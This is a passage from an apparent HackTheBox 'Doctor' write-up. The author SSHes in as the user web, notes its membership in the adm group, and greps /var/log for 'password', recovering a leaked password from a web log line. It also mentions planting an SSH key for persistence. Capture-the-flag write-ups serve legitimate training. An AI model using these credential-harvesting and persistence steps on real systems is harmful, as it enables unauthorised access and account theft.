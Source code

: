   I will drop my ssh publick key in shaun's directory.

  ```shell
┌─[sid@parrot]─[~/Documents/flags/hackthebox/linux-machines/doctor]
└──╼ $ssh web@doctors.htb 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


76 updates can be installed immediately.
36 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Mon Jul 27 20:45:33 2020 from 192.168.127.142
web@doctor:~$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
web@doctor:~$ 
  ```

The user web is part of the adm group which means we can read log files which are located in /var/log

  <img src="/assets/img/Posts/Doctor/adm-group.png" class="center">

```shell
web@doctor:/var/log$ find . -type f  -exec strings {} \; |grep -i password 2>/dev/null
<SNIP>
Feb  4 01:11:03 doctor kernel: [    5.921194] systemd[1]: Started Forward Password Requests to Plymouth Directory Watch.               
strings: ./vmware-network.1.log: Permission denied                                                                                     
10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"          
strings: ./vmware-network.5.log: Permission denied                                                                                     
strings: ./vmware-network.6.log: Permission denied                                                                                     
<SNIP>
```